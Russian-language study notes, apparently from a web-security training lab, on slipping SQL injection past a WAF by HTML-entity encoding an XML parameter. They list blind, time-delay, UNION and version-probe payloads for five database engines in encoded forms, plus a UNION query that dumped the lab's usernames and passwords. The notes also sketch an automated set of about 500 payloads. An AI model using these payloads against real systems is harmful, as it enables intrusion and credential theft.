

# SQL-инъекция с обходом WAF фильтра с помощью XML-кодирования

# WAF

обработчка в цифровом вармнате а не текстовом!

1) перехватил post запрос 
2) нашел парматеры внизу после пустой строчки
3) формат xml 1.0 "UTF-8"


4) нужно определить тип бд слепой задержкой но с обходом waf

методом подставки слов к значению определил слова которые waf блокирует а какине нет 

```

вот такой запрос не блокирует
<productId>2( COUNT(*) FROM generate_series(1,10000000))</productId>

оригинальный был 
'||(SELECT COUNT(*) FROM generate_series(1,10000000))--


SELECT - блокирует
--  блокирует
|| блокирует
and блокирует

%20  пропускает '
%7C%7C   пропускает   ||
%2D%2D  пропускает --

нужно найти запрос без sekect and

&#x33;       это цифра 3 в закод в html

<productId>3</productId> оригинал - ответ 200 381
<productId>&#x33;</productId> в html - ответ 200 381
значит он принимает html!
и можно отправлять запросы!

попробовал все виды запросов для бд версия с задержками
и версии с бул 1=1 и 1=2
ответ не менялся


```

### эвристика)

**Начинайте всегда с минимального, целевого кодирования**

с переводом для обхода waf пробую  клдировать эти запросы все в 
url = utf-8 кодирование

```sql СПЕРВА ТЕСТИМ ПЕРВЫЕ ВАРИАНТЫ 
-------------------------------------------------------------------
//🟣🟣🟣 SQLite
' AND (SELECT CASE WHEN (1=1) THEN LIKE('ABCDEFG', UPPER(HEX(RANDOMBLOB(100000000)))) ELSE 0 END)=1--

20%27 %61%6e%64 (%53%45%4c%45%43%54 CASE WHEN (1=1) THEN LIKE(%27ABCDEFG%27, UPPER(HEX(RANDOMBLOB(100000000)))) ELSE 0 END)=1%2d%2d    пропустил но не выполнился запрос

----- 
'||LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000))))--
'||(SELECT randomblob(100000000))--
'||(SELECT COUNT(*) FROM sqlite_master a,sqlite_master b,sqlite_master c)--
-------------------------------------------------------------------
'//🟣🟣🟣 Oracle
' AND (SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(10) ELSE 0 END FROM dual)=0--


%27 %61%6e%64 (%53%45%4c%45%43%54 CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(10) ELSE 0 END FROM dual)=0%2d%2d    пропустил но не выполнился запрос 
-----
'||DBMS_LOCK.SLEEP(10)--
'||(SELECT COUNT(*) FROM all_objects a,all_objects b,all_objects c) FROM dual--
-------------------------------------------------------------------
''//🟣🟣🟣Microsoft SQL Server
' AND 1=(SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT COUNT(*) FROM sys.objects o1, sys.objects o2, sys.objects o3, sys.objects o4, sys.objects o5, sys.objects o6) END)--


-----
%27||WAITFOR DELAY '0:0:10'--

2%27%7c%7c WAITFOR DELAY %270:0:10%27%2d%2d  пропустил но не выполнился запрос  

'||(SELECT COUNT(*) FROM sys.objects a,sys.objects b,sys.objects c)--
-------------------------------------------------------------------
'''//🟣🟣🟣MySQL / MariaDB
' AND (SELECT IF(1=1, SLEEP(10), 'a'))='a'--

%27 %61%6e%64 (%53%45%4c%45%43%54 IF(1=1, SLEEP(10), %27a%27))=%27a%27%2d%2d      пропустил но не выполнился запрос  
-----
'||sleep(10)--
'||BENCHMARK(10000000,MD5('test'))--
'||IF(1=1,SLEEP(10),0)--
-------------------------------------------------------------------
//🟣🟣🟣PostgreSQL
сработал этот в этой лабе
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) IS NOT NULL--

%27 %61%6e%64 (%53%45%4c%45%43%54 CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) IS NOT NULL%2d%2d      пропустил но не выполнился запрос  

-----
'||pg_sleep(10)-- 
'||(SELECT COUNT(*) FROM generate_series(1,10000000))--
-------------------------------------------------------------------
```

ниже waf  пропустил но не выполнился запрос  
2%20%61%6e%64%20(%53%45%4c%45%43%54%20IF(1=1, SLEEP(10), %27a%27))=%27a%27%23      пропустил но не выполнился запрос  

2%3b%20%57%41%49%54%46%4f%52%20%44%45%4c%41%59%20%27%30%3a%30%3a%31%30%27%2d%2d       пропустил но не выполнился запрос  

2%20%61%6e%64%20(%53%45%4c%45%43%54%20CASE%20WHEN%20(1=1)%20THEN%20pg_sleep(10)%20ELSE%20pg_sleep(0)%20END)%20IS%20NOT%20NULL%2d%2d        пропустил но не выполнился запрос  

2%20%61%6e%64%20(%53%45%4c%45%43%54%20CASE%20WHEN%20(1=1)%20THEN%20pg_sleep(10)%20ELSE%20pg_sleep(0)%20END)%20IS%20NOT%20NULL%2d%2d        пропустил но не выполнился запрос  

2%20%61%6e%64%20(%53%45%4c%45%43%54%20CASE%20WHEN%20(1=1)%20THEN%20%44%42%4d%53%5f%4c%4f%43%4b%2e%53%4c%45%45%50(10)%20ELSE%200%20END%20FROM%20dual)=0%2d%2d        пропустил но не выполнился запрос  

2%20%61%6e%64%20(%53%45%4c%45%43%54%20CASE%20WHEN%20(1=1)%20THEN%20LIKE(%27ABCDEFG%27,%20UPPER(HEX(RANDOMBLOB(100000000))))%20ELSE%200%20END)=1%2d%2d           пропустил но не выполнился запрос  


url кодир
' UNION i @@version,NULL--     
%27 %55%4e%49%4f%4e i @@version,NULL%2d%2d             пропустил но не выполнился запрос  

' UNION SELECT version(),NULL--      
%27 %55%4e%49%4f%4e %53%45%4c%45%43%54 version(),NULL%2d%2d
 пропустил но не выполнился запрос  

 UNION SELECT banner,NULL FROM v$version--
%27 %55%4e%49%4f%4e %53%45%4c%45%43%54 banner,NULL FROM v$version%2d%2d          пропустил но не выполнился запрос  


MySQL
' AND SUBSTRING(@@version,1,1)='5'--
%27 %41%4e%44 SUBSTRING(@@version,1,1)=%275%27%2d%2d       пропустил но не выполнился запрос  


Microsoft SQL Server	
' AND SUBSTRING(@@version,1,1)='M'
%27 %41%4e%44 SUBSTRING(@@version,1,1)=%27M%27       пропустил но не выполнился запрос  

PostgreSQL	
' AND SUBSTRING(version(),1,1)='P'--
%27 %41%4e%44 SUBSTRING(version(),1,1)=%27P%27%2d%2d       пропустил но не выполнился запрос  


Oracle	
' AND SUBSTR((SELECT banner FROM v$version WHERE rownum=1),1,1)='O' FROM DUAL--
%27 %41%4e%44 SUBSTR((%53%45%4c%45%43%54 banner FROM v$version WHERE rownum=1),1,1)=%27O%27 FROM DUAL%2d%2d       пропустил но не выполнился запрос  


SQLite	
' AND SUBSTR(sqlite_version(),1,1)='3'--
%27 %41%4e%44 SUBSTR(sqlite_version(),1,1)=%273%27%2d%2d     пропустил но не выполнился запрос  


# П"""ДОС

&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x7e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;

где:
`1 UNION SELECT username || '~' || password FROM users`

- `||` — оператор конкатенации строк (работает в **PostgreSQL** и **SQLite**).
    
- `'~'` — разделитель, чтобы отличить логин от пароля.
    
- `FROM users` — извлечение из таблицы пользователей.


вот это запрос вернул мне данные 

HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

120 units
administrator~49wq65v3brr28490p0ye
wiener~o34kk80xjex1obv5f476
carlos~4mydpf0camc4o8c84rj8

# КОРОЧЕ ГОВОРЯ _  если через decoder закодировать запросы в формате HTML то возвращается мой запрос рабочий!

из 
1 UNION SELECT username || '~' || password FROM users

в

&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x7e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;

# ДВА ГЛАВНЫХ ВЫВОДА

# 1 ) 1 + 1  ДАЛО ответ сервера как 2 = это означает что в sql используется числовой параметр и тогда стрококвые проверки бесполезны!


### Интерпретация результатов

|Результат теста `productId=3-1`|Вероятная ситуация|Что это значит для нас?|Дальнейшие действия|

оригинал  = 3
 пейлоад = 3-1
 если:

 

нужно уметь понимать что происходит:
1) какие запросы блокируются waf ?
2) проверять в какой кодировке waf не блокирует
3) и какие запросы доходят до серверной части
4) как построен sql запрос ЧИСЛОВОЙ или СТРОКОВЫЙ
5) составить пейлоады для всех типов БД sql с учетом waf
6) эти пейлоады нужно проверять на все типы
7) 
слепые тоже могут быть: 
8) с условными ответами, когда если верный запрос то ответ 200,
9) с условными ответами где вызываем намеренно ошибку при срабатывании условия 1/0 
10) когда ошибка выводится в ответе сервера
11) -когда используем временный задержки
12) -внеполосные OAST


 # ВЫВОДЫ ВАЖНЫЕ
 Короче говоря получается что, в некоторых моментах  работают уязвимости union, каких-то моментах могут работать уязвимости которые вызывают ошибкой в других моментах работают уязвимости которые реагируют на временные задержки, причём может быть так что какая-то одна только уязвимость из всех перечисленных работает а другие не будут подавать никаких признаков, при этом при всём waf может блокировать те или иные символы или слова, помимо этого данные могут быть зашифрованы в том или ином виде, абзац
Получается что для того чтобы когда мы подходим к новой Неизвестный нам месту куда можно подставить свой Payload для того чтобы узнать есть ли там sql инъекция, нам нужно сперва проверить какие символы блокируют waf и есть для вообще он здесь,
Но я список символов и слов которые waf блокируют и не блокируют, а также определив какую кодировку Fair Wall не блокирует, например URL или HTML, или двойная URL кодировка, когда мы узнали эти моменты о том как работает FOL мы должны начать проверять данный point на наличие инъекций путём подстановки различных видов запросов: обычные инъекции, union инъекции, Time Based инъекции, Crush Err инъекции, слепые инъекции, слепые BEL инъекции слепые Err инъекции слепые временные задержки инъекции, и каждую из этих инъекций нужно подготовить для определённого типа базы данных sql и перекодировать эти запросы так чтобы их пропустил FireWall.,

У нас есть пять основных типов версий баз данных sql
У нас есть примерно четыре основных типа кодировки которые могут использоваться чаще всего
У нас есть пять основных типов инъекций sql 
У нас есть возможно ещё условия которые нам выставляют waf 

Теперь это все нужно перемножить и мы получим число запросов которые можно подставить в интрудер в полезную нагрузку для того чтобы запустить автоматический тест который проверит каждый Pilote точнее каждый point в который можно вставить payloads проверить на все типы инъекций, а также проверят все виды баз данных и потом нужно будет только лишь подготовить если необходимо для каждого Пайлота кодировку для входа Fair Val .

Получается что должно быть около 500 payloads   выполнив которые к каждому поту куда мы подставляем payloads мы можем понять в автоматическом режиме после выполнения проверки есть ли там у уязвимость или нет.